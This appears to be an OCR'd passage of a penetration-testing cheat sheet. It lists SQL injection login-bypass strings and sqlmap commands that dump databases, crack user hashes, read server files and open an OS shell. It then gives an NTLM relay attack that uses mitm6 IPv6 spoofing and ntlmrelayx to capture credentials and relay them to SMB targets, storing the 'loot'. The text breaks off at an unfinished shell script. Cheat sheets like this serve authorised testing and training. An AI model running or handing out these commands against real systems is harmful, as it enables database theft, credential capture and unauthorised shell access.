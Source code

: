```
-   `' or 1=1/*`
-   `') or '1'='1--`
-   `') or ('1'='1—`

### **SQLMap**

-   `sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3`
    -   Automated sqlmap scan
-   `sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3`
-   `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/blah.php"`
    -   Targeted sqlmap scan
-   `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump` Scan
    url for union + error based injection with mysql backend and use a
    random user agent + database dump
-   `sqlmap -o -u "http://meh.com/form/" --forms`
    -   sqlmap check form for injection
-   `sqlmap -o -u "http://meh/vuln-form" --forms -D database-name -T users --dump`
    -   sqlmap dump and crack hashes for table users on database-name.
-   `sqlmap --flush session`
    -   Flushes the session
-   `sqlmap -p user --technique=B`
    -   Attempts to exploit the “user” field using boolean technique.
-   `sqlmap -r <captured request>`
    -   Capture a request via Burp Suite, save it to a file, and use
        this command to let sqlmap automate everything. Add --os-shell at
        the end to pop a shell if possible.

-   SQL injection bypasses
        ' or 1=1 LIMIT 1 --
        ' or 1=1 LIMIT 1 -- -
        ' or 1=1 LIMIT 1#
        ' or 1#
        ' or 1=1 --
        ' or 1=1 -- -

**Miscellaneous** 
=================

#### NTLMRelayx.py using mitm6

This will take captured credentials via IPv6 spoofing using mitm6 and
relay them to a target via ntlmrelayx.py. It requires ntlmrelayx.py and
mitm6 to be installed already.

-   mitm6 -d <domain.local>

    -   First, start mitm6 and specify the domain you’re spoofing on
        with ‘-d domain.name’
-   ntlmrelayx.py -6 -wh 192.168.1.1 -t smb://192.168.1.2 -l ~/tmp/
    -   -6 specifies ipv6, -wh specifies where the WPAD file is hosted
        at (your IP usually). -t specifies the target, or destination
        where the credentials will be relayed. -l is to where to store
        the loot.      

#### Name your terminal whatever you want
This small script will name your terminal whatever you pass as an
argument to it. It helps organizing with multiple terminals open. Thanks
Ben!

    #!bin/bash

```